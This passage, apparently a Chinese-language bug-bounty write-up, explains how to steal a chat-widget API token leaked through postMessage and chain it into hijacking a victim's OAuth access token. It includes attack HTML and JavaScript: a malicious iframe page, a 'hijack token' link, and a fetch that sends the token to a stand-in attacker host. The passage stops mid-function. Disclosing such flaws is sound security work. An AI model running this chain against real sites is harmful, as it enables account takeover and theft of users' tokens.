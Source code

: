
在这个例子中，我意识到chat-api-令牌的声明总是会通知给chat-widget iframe的父组件，如果我得到了chat-api-令牌，我就可以使用令牌发出服务器端请求，然后将我自己的人工Origin-header添加到api调用中，因为CORS-header只对浏览器重要。这将导致以下逻辑:


创建了一个嵌入chat-widget的iframe的恶意页面，添加了一个postMessage-listener来监听聊天api令牌。此外，如果我没有在2秒内获得api令牌，触发一个事件来重新加载iframe。这是为了确保我也支持从未发起过聊天的受害者，因为我可以触发远程打开聊天，所以我首先需要聊天api令牌从服务器端开始轮询聊天api中的数据。


```html

<div id="leak"><iframe
id="i" name="i"
src="https://chat-widget.example.com/chat" onload="reloadToCheck()"></iframe></div>
<script>
var gotToken = false;
function reloadToCheck() {
  if (gotToken) return;
  setTimeout(function() {
    document.getElementById('i').src = 'https://chat-widget.example.com/chat?' + Math.random();
  }, 2000);
}
window.onmessage = function(e) {
  if (e.data.key === 'api-token') {
    gotToken = true;
    lookInApi(e.data.value);    
  }
}
launchChatWindowByPostMessage();
</script>
```


2.添加了一个链接到恶意页面，以打开登录流，该登录流最终会出现在页面上，URL中带有令牌的chat-widget:


```html

<a href=" " onclick="b=window.open('https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...');">Click here to hijack token</a >
```

3.launchChatWindowByPostMessage()函数将持续发送一个postMessage到主窗口，如果打开，以启动chat-widget:

```JavaScript

function launchChatWindowByPostMessage() {
  var launch = setInterval(function() {
    if(b) { b.postMessage({type: 'launch-chat'}, '*'); }
  }, 500);
}
```

4.当受害者单击该链接并最终出现在错误页面时，聊天将启动，并创建一个chat-api-令牌。我在恶意页面上重新加载chat-widget的iframe将通过postMessage获得API令牌，然后我可以开始在API中查找受害者的当前url:


```JavaScript

function lookInApi(token) {
  var look = setInterval(function() {
    fetch('https://fetch-server-side.attacker.test/?token=' + token).then(e => e.json()).then(e => {
      if (e &&
        e.api_data &&
        e.api_data.current_url &&
        e.api_data.current_url.indexOf('access_token') !== -1) {
          var payload = e.api_data.current_url
          document.getElementById('leak').innerHTML = 'Attacker now has the token: ' + payload;
          clearInterval(look);
      }
```